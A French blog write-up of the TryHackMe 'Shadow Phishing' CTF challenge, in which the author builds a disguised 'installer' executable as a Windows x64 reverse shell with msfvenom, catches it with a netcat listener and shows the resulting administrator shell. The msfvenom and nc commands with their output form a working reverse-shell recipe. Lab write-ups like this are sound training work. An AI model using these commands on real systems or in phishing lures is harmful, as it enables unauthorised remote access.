 ```yaml
---
title: TryHackMe - Shadow Phishing
date: 2025-03-26 14:32:49 -0400
description: Dans le cadre du Hackfinity Battle sur TryHackMe, le challenge "Shadow Phishing" nous plonge dans un scénario RedTeam où nous devons simuler une attaque de phishing avancée. Un certain "Cipher" (cipher@darknetmail.corp) envoie un email à "ShadowByte" (shadowbyte@darknetmail.corp), demandant la création d’un build du "SilentEdge Installer", un exécutable malveillant qui doit fonctionner proprement sur Windows 10 x64. L’objectif est de générer cet EXE, de confirmer qu’il établit une connexion reverse shell (simulant une porte dérobée installée via une campagne de phishing), et de le soumettre pour un "dead drop". Voici comment j’ai résolu ce défi, étape par étape.
categories: [TryHackMe]
tags: [THM, CTFs, Hacking]
image:
    path: https://i.ibb.co/N2gTrq0p/a.png
---
```



- **[The Best Academy to Learn Hacking](https://referral.hackthebox.com/mz6xj5g)**.
- **[Beginner Friendly challenges on TryHackMe](https://tryhackme.com/signup?referrer=61e8a27ddd3f3b00496505d1)**.

<h2 style="color: orange;">Analyse</h2>

L’email de **Cipher** précise que nous devons créer un exécutable nommé `SilentEdge Installer` qui fonctionne sur *Windows 10 x64*. Bien que l’email ne mentionne pas explicitement un antivirus, le contexte du challenge **Shadow Phishing** suggère que l’EXE pourrait être utilisé dans une campagne de phishing pour installer une porte dérobée.

Mon objectif était donc de :

- Générer un payload reverse shell avec `msfvenom`.
- Configurer un listener pour recevoir la connexion.
- Soumettre l’exécutable pour valider le challenge via le **dead drop**.




<h2 style="color: orange;">Resolution</h2>
D'abord pour resoudre ce challenge, je vais commencer par un basic `msfvenom` pour creer un payload en `.exe` et voir s'il vas fonctionner ou si l'antivirus vas le flagger

```console
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=1337 -f exe -o hack.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: hack.exe

$ sudo rlwrap nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.6.8.193] from (UNKNOWN) [10.10.254.169] 49899
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
fisher\administrator

C:\Windows\system32>
```

J’ai généré un payload avec `msfvenom` en utilisant le `windows/x64/shell_reverse_tcp`, qui est compatible avec **Windows 10 x64**. J’ai spécifié mon `LHOST` comme `tun0` (mon IP sur le réseau VPN de TryHackMe, ici `10.6.8.193`) et le `LPORT` comme `1337`. Le fichier généré, `hack.exe`, fait `7168` bytes.

Ensuite, j’ai configuré un listener avec `netcat` en utilisant `sudo rlwrap nc -lnvp 1337` pour recevoir la connexion reverse shell. Après avoir exécuté `hack.exe` sur la machine cible (une machine **Windows 10 x64** fournie par le challenge), j’ai reçu une connexion sur mon listener. La commande `whoami` a confirmé que j’avais un shell avec les privilèges de l’utilisateur `fisher\administrator`, ce qui signifie qu'on a un accès administrateur.



![Hacked](https://i.ibb.co/0yKwv6m6/hacked.png)


<h2 style="color: orange;">Conclusion</h2>

Le challenge **Shadow Phishing** m’a permis de renforcer mes compétences en création de payloads malveillants et en simulation d’attaques de phishing, des techniques clés pour les opérations RedTeam. J’ai particulièrement apprécié le réalisme du scénario, qui met en scène une communication entre deux acteurs malveillants et une tâche concrète de création d’un dropper. Un grand merci à TryHackMe pour ce défi stimulant !


<h2 style="color: orange;">Ressources supplementaires</h2>
Voici quelques ressources supplémentaires qui pourraient vous être utiles :
- **Love my artciles?** Follow me on [Twitter](https://x.com/@bloman19) and [Github](https://github.com/0xabdoulaye)
- [Join Us on Discord](https://discord.gg/wBT9wr9ruG).

